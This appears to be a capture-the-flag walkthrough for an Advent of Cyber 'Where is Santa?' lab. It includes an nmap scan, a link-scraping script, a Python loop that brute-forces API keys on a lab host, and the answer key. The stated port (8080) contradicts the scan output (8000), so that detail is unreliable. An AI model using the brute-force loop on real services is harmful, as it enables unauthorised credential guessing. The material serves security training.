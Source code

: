 # [Day 16] Scripting - Help! Where is Santa?

## Topics

- Putting scripting skills to the test

### 1. What is the port number for the web server?
```
8080
```
For this we do a simple nmap scan `nmap -sV 10.10.x.x`

__important nmap output:__
```
Not shown: 999 closed ports
PORT     STATE SERVICE  VERSION
8000/tcp open  http-alt uvicorn
```

### 2. Without using enumerations tools such as Dirbuster, what is the directory for the API?  (without the API key)
```
api
```
You can just guess this one, but a more secure approach would be to scan the website and search for the hidden link that is mentioned. This can be done manually or with a python script like in day 15.

__python script to scrape the links:__
```python
from bs4 import BeautifulSoup, SoupStrainer
import requests

url = "http://10.10.x.x:8000/static/index.html"

page = requests.get(url)    
data = page.text
soup = BeautifulSoup(data)

for link in soup.find_all('a'):
    print(link.get('href'))
```
Run the script with `python3 scriptName.py`. If you don't have the dependencies, install them with `pip3 install xxx`.\
The link that we want should pop up: `http://machine_ip/api/api_key`

### 3. Where is Santa right now?

For this question and the next one, we need to find the api key, but too many guesses will end up with out IP banned from the site. We can use a python script to brute force only the odd numbers instead of all 100 of them.

__python brute forcing script:__
```python
import requests

for api_key in range(1,100,2):
	print(f'API KEY: {api_key}')
	html = requests.get(f'http://10.10.241.232:8000/api/{api_key}')
	print(html.text)
```
This code uses the `requests` library to get the website. We are just looping from 1 to 100 with a jump of 2, so we would start with 1, then 3, then 5 and so on. Then we replace that number in the url string and we print the html response. Eventually we should find the api key because it'll have a different response than the rest.


### 4. Find out the correct API key. Remember, this is an odd number between 0-100. After too many attempts, Santa's Sled will block you. 
```
57
```